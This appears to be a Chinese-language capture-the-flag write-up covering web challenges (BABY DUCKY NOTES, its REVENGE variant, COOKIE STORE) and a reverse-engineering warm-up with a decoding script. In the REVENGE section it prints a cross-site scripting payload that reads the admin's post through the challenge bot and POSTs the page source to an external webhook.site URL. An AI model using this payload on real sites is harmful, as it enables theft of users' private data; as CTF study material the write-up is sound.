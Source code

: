 # web
### BABY DUCKY NOTES
理清楚路由即可,
`post/view/<name>`可以访问这个用户的post内容,在`database.db`里可以看到flag是放在了admin下
,签到题,直接访问admin的post即可
### BABY DUCKY NOTES: REVENGE
#xss 
根据名字也知道是上一题的升级版
使用winmerge对比一下两道题附件,基本一致,但是revenge题目设置了hidden属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230728204549.png)

那就需要用到bot来帮我们读取flag了,那就是xss了

---
本地都打到了,怎么bot不行,还好试出来了
*payload*
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost:1337/posts/view/admin', true);
xhr.onreadystatechange = function() {
    var sourceCode = xhr.responseText;
    // 在这里处理获取到的网站源代码
    var data = "sourceCode=" + encodeURIComponent(sourceCode); // 定义data变量
    var xhr2 = new XMLHttpRequest(); // 创建新的XMLHttpRequest对象
    var url = "https://webhook.site/0f4d9c2a-3099-44f4-a220-ad03ee9c92dd"; // 将URL设置为您的服务器端点
    xhr2.open("POST", url);
    xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr2.onload = function() {
      if (xhr2.status === 200) {
        console.log(xhr2.responseText);
      }
      else {
        console.log("请求失败");
      }
    };
    xhr2.send(data); // 将数据发送到服务器
};
xhr.send();
```
### COOKIE STORE
一个可以自定义模板,并且能分享给其他人的网站
提交的模板会存储的session里,并且使用`csrf_token`防止越权
![image](https://i.imgur.com/YyII7ml.png)
我们可以操作bot向指定fields写入FLAG内容,
```python
    client.get(f"http://localhost:1337/form_builder?fields={fields}")

    time.sleep(2)
    try:
        client.find_element(By.ID, "title").send_keys(FLAG)
    except:
        pass
    client.execute_script("""document.querySelector('input[type="submit"]').click();""")
    time.sleep(2)
```
也就是我们需要通过`csrf_token`来越权

# reverse
### PASS
热身题
```python
string="PziP97vkc5sA6oJM0KwWEnQX2OFaH0nAFTuS42myr31GYbJIfBSdAFWsLpx8N0v4PzO7aIVQaHrVq6AW8c1K5ZyFXzMeRAOiJ2nWXYy2Pj7x96RzkcA3\
inNqlDOBLKZ4rNFYGTn0Cl5U9aX2WIH1cOyIbm2AZ0k31u7FrxBECKPpMhYVUyvA5LfgXcW9eDSMTBlsorR22laXN3e8<qSCmwK0Do9bJzYvd5YgG3dR\
BhwMvOp2qS08UWQKtLQbphJTXLd2~fktr45ES7OK3x0yNqu1XSC9nA`rGpBvQlbDktjIxLm2KlVYnXw0mpt5aOe8B4grGXFe06gaZv3PYdpS4CDquJnm\
kR1Mn6sKScF3vV7pdzYfTkBRbqGbzu2wtPHkXsx1pK14ojTfJYIe0PpU1TjDKaW85uZ2mlFHYMSEkBvKo6WIdTnVRewMPk|3pU1SjNErN7s0HYlp9tMq\
AmBh0dXD4VaK8NZWU1fnrsQaEc5Bht09eHwxDSpWj0ahd5rtIzyKETxUq9CkXC8DAP37Kc1UqOvdb2GT0Yvxuh1grzfdR4JiVpo83QOEWlL2<Bt9Xm7Q\
5RNkljfOZogB8ctIzyra9wF0RKycTJjvZfDlm6o75QsG`2laXN3e85qSCmwK0Do9bJzYvdZE6"

for i in range(0,len(string),26):
    if(ord(string[i])==90):
        print(chr(123),end='')
    else:
        print(chr((ord(string[i])^0xB)-7),end='')


```


### PROCESS-MONITOR
给了三个文件,`ProcessMonitor.inf`,`ProcessMonitor.cat`,`ProcessMonitor.sys`
sys是驱动程序,需要re

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-28   20:19